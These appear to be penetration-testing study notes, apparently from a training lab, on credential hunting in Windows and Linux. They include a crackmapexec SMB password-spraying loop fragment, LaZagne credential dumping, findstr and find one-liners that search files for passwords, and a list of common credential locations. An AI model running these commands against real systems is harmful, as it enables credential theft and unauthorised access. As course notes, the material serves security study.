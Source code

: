 ```bash
    
    # Run crackmapexec with the current username and password
    crackmapexec smb 10.129.202.85 -u "$username" -p "$password"
  done
done
```

# Credential Hunting in Windows
common terms:
    Passwords 	Passphrases 	Keys
    Username 	User account 	Creds
    Users 	Passkeys 	Passphrases
    configuration 	dbcredential 	dbpassword
    pwd 	Login 	Credentials

We can use [Lazange](https://github.com/AlessandroZ/LaZagne) for windows, suggestively, keep a kopy of it on the server
```powershell
start lazagne.exe all
```
```bash
findstr /SIM /C:"password" *.txt *.ini *.cfg *.config *.xml *.git *.ps1 *.yml
```

Here are some other places we should keep in mind when credential hunting:

    Passwords in Group Policy in the SYSVOL share
    Passwords in scripts in the SYSVOL share
    Password in scripts on IT shares
    Passwords in web.config files on dev machines and IT shares
    unattend.xml
    Passwords in the AD user or computer description fields
    KeePass databases --> pull hash, crack and get loads of access.
    Found on user systems and shares
    Files such as pass.txt, passwords.docx, passwords.xlsx found on user systems, shares, Sharepoint

# Credential Hunting in Linux
    Files 	History 	Memory 	Key-Rings
    Configs 	Logs 	Cache 	Browser stored credentials
    Databases 	Command-line History 	In-memory Processing 	
    Notes 			
    Scripts 			
    Source codes 			
    Cronjobs 			
    SSH Keys 			

    Configuration files 	Databases 	Notes
    Scripts 	Cronjobs 	SSH keys

Sample for configs:
`for l in $(echo ".conf .config .cnf");do echo -e "\nFile extension: " $l; find / -name *$l 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done`
